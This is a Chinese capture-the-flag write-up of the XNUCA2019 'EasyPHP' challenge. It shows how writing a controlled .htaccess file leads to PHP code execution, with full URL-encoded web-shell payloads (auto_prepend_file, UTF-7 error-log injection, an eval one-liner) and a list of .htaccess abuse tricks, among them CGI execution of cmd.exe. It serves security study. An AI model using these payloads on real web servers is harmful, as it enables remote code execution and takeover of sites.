

# \[XNUCA2019Qualifier]EasyPHP

## \[XNUCA2019Qualifier]EasyPHP

## 考点

* .htaccess修改PHP配置

## wp

给了源码，第一段删除除了index.php之外的所有文件，再包含fl3g.php，不对啊fl3g.php应该没有了啊为什么不报错，并且代码可以顺利执行。需要GET传入两个参数content和filename

```php
$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
include_once("fl3g.php");
if(!isset($_GET['content']) || !isset($_GET['filename'])) {
    highlight_file(__FILE__);
    die();
}
```

第二段代码对传入的内容进行检查。content不能包含`on,html,type,flag,upload,file` ，filename必须由小写字母和`.` 组成

```php
$content = $_GET['content'];
if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
    echo "Hacker";
    die();
}
$filename = $_GET['filename'];
if(preg_match("/[^a-z\.]/", $filename) == 1) {
    echo "Hacker";
    die();
}
```

接着最后一段代码，删除除了index.php之外的所有文件，在把content写入到filename中

```php
    $files = scandir('./');
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
```

传入`?content=123&filename=.aaa` 再访问`.aaa` 可以看到内容

```
123
Just one chance
```

这里给的提示很明显了，文件名只由小写字母和`.` 组成，那就是`.htaccess`

### 第一种做法

在`.htaccess` 中使用`#` 进行单行注释，由于在代码中使用`.` 对content进行拼接，如果content最后加上`\` 就会把拼接的 给注释掉。再配合`#` 就可以注释掉拼接内容了。

接着是利用.htaccess写shell，将一句话写入到.htaccess的注释中，再利用它自动加载文件的特性加载.htaccess文件，从而加载一句话

content为

```
php_value auto_prepend_file ".htaccess"
# <?php eval($_GET[1]);?>\
```

由于file被过滤，可以使用`\` 绕过，就像Linux命令行那样，而换行可以使用`%0A` ，或者直接把下面这段进行URL编码

```
php_value auto_prepend_fi\
le ".htaccess"
# <?php eval($_GET['1']);?>\
```

payload

```
filename=.htaccess&content=php_value+auto_prepend_fi%5c%0ale+%22.htaccess%22%0a%23+%3c%3fphp+eval(%24_GET%5b%271%27%5d)%3b%3f%3e%5c&1=phpinfo();
```



### 第二种做法

利用`.htaccess` 自定义错误日志和默认包含路径进行getshell。首先设置错误日志为`/tmp/fl3g.php` ，再把默认包含路径设为一句话，这样在写入错误日志时就会把一句话也写入

```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "<?php eval($_GET[1]);?>"
# \
```

但是在日志写入时，会把`<>` 这些字符进行编码，所以使用UTF-7编码绕过

```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "+ADw?php eval($_GET[1])+ADs +AF8AXw-halt+AF8-compiler()+ADs"
# \
```

将shell写入后，需要再写一个.htaccess设置默认包含路径为`/tmp` ，并且让其使用UTF-7的方式解码。这样在index.php中`include_once("fl3g.php");` 时，就会包含一句话

```
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

payload

```
filename=.htaccess&content=php_value+error_log+%2ftmp%2ffl3g.php%0aphp_value+error_reporting+32767%0aphp_value+include_path+%22%2bADw%3fphp+eval(%24_GET%5b1%5d)%2bADs+%2bAF8AXw-halt%2bAF8-compiler()%2bADs%22%0a%23+%5c

filename=.htaccess&content=php_value+include_path+%22%2ftmp%22%0aphp_value+zend.multibyte+1%0aphp_value+zend.script_encoding+%22UTF-7%22%0a%23+%5c&1=phpinfo();
```


### 第三种做法

利用正则回溯，preg\_match函数有prce回溯，如果超过回溯次数就会返回FALSE。而在本题，所有preg\_match的判断都是是否为TRUE，所以可以使用这个方法绕过。

在.htaccess中设置回溯次数的方法是

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
# \
```

但是这个方法是有问题的，要先写入修改正则回溯次数的内容到.htaccess中，但是当第二次向fl3g.php写入一句话的时候，上次上传的.htaccess已经被删除，所以会一直提示Hacker。

## 小结

1. 在`.htaccess` 中使用`#` 进行单行注释
2. 在`.htaccess` 中使用`\`进行多行拼接
3. 在`.htaccess` 中使用`php_value auto_prepend_file "1.jpg"` 在脚本头部加载文件
4. `.htaccess` 可以自定义错误日志路径
5. `.htaccess` 可以自定义默认包含路径
6. `.htaccess` 可以使用UTF-7编码绕过一些限制
7. `.htaccess` 可以自定义preg\_match函数prce回溯次数
8. [Apache中.htaccess文件利用的总结与新思路拓展](https://www.freebuf.com/vuls/218495.html)
9. [.htaccess利用与Bypass方式总结](https://www.anquanke.com/post/id/205098)
10. .htaccess利用方式

```
当前目录及其子目录下所有文件都会被当做php解析
SetHandler application/x-httpd-php

对指定后缀文件以选定的文件类型解析为php
AddType application/x-httpd-php .a

将当前目录下的文件当作文本解析
<FilesMatch "\.ph.*$">
SetHandler text/plain
</FilesMatch>

利用apache的服务器状态信息，可以查看所有访问本站的记录，访问127.0.0.1/server-status
SetHandler server-status

加载cgi_module
Options ExecCGI
AddHandler cgi-script .xx
接下来，以Windows平台为例，上传poc.xx文件，内容如下：
#!C:/Windows/System32/cmd.exe /c start calc.exe
1
第一行用来表示CGI程序的路径。可以随便开你的脑洞。
因为CGI程序处理完成后，会被Apache关闭，所以我们这里要用启动新进程的方式来启动。
这时访问poc.xx。计算器就出来了。
```

